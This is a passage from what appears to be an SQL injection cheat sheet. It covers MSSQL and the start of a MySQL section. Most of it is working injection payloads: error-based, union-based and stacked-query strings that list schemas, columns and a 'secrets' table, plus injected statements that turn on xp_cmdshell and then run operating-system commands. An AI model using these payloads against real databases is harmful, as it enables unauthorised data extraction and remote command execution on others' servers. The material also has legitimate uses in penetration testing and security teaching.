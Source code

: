 Normal
```sql
select COLUMN_NAME, DATA_TYPE from app.information_schema.columns where TABLE_NAME = 'menu';
```
Error based
```sql
cast((SELECT+column_name+FROM+exercise.information_schema.columns+where+table_name+%3d+'secrets'+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)
```
Union Based
```sql
' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE TABLE_NAME = 'table_name' --
```
Stacked Queries:
```sql
; SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'table_name'; --
```

#### Command Execution

**Normal**

To use `xp_cmdshell` for command execution, it first needs to be enabled by a user with administrative privileges:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
After enabling, you can execute system commands like so:
```sql
EXEC xp_cmdshell 'your_command_here';
```

**SQLi**
Just like before, you will need to enable the privs first, sometimes they may be enabled by default:
```sql
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
```sql
'; EXEC xp_cmdshell 'your_command_here'; --
```
## MYSQL

### List databases:

- Normal
    - `SHOW DATABASES;`
- Error based 32 character limit
    - `' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1)))--`
- Union Based
    - `' UNION SELECT schema_name, NULL FROM information_schema.schemata --`
- Stacked Queries:
    - `; SHOW DATABASES; --`
